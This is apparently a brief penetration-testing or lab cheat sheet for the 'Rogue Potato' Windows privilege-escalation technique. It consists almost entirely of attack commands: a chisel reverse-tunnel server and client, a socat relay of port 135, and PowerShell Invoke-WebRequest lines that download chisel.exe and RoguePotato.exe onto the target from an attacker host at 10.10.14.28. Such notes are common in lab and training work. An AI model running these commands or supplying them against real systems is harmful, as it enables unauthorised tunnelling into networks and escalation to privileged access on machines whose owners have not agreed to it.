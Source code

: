 # Rogue Potato

setup chisel - server and client

```text
sudo ./chisel server -p 9001 --reverse

invoke-webrequest -uri 'http://10.10.14.28/chisel.exe' -outfile chisel.exe
.\chisel.exe client 10.10.14.28:9001 R:9999:127.0.0.1:9999
```



```text
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```

download rogue potato to the windows box

```text
invoke-webrequest -uri 'http://10.10.14.28/RoguePotato.exe' -outfile .\rp.exe
```




